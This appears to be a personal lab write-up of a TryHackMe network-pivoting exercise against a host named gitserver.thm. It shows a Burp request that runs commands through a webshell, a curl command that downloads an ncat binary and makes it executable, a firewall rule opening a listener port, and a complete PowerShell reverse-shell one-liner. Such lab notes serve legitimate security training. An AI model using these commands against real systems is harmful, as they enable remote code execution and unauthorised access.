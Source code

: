 
Will update the /etc/hosts so that we can access the site through Burpsuite
```
10.200.105.150 gitserver.thm
```
![[Pasted image 20231225132835.png]]


```
POST /web/exploit-sardarji.php HTTP/1.1
Host: gitserver.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

a=whoami
```
![[Pasted image 20231225134537.png]]

hostname : git-serv
![[Pasted image 20231225145819.png]]

So as uname -a or hostnamectl didn't give us anything back so it's hunch as this point but confirmed later that it's a windows machine.
![[Pasted image 20231225150354.png]]

Things to check now is:
- this target is allowed to connect to the outside world
so in-order to check that we will fire-up a ping request on the compromised server and see using Wireshark what happens.

So we tired and didn't succeed and got to know that we need to go back to drawing board and build a different strategy.
![[Pasted image 20231225150948.png]]

Now we have to upload a static copy of netcat
https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat

we have to give access to the port for public access aka firewall 
```
firewall-cmd --zone=public --add-port 16000/tcp
```
![[Pasted image 20231225210205.png]]

```
curl 10.50.106.240/ncat-sardarji -o /tmp/ncat-sardarji && chmod +x /tmp/ncat-sardarji
```

```
./ncat-sardarji -lvnp 16000
```

Got the reverse Shell
We got the shell on the linux machine cuz we already have access to it and allowed the firewall rule for the port so now we have to do the enumeration and pivoting for the next machine.
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.105.200',16001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
![[Pasted image 20231225211337.png]]

![[Pasted image 20231230120550.png]]

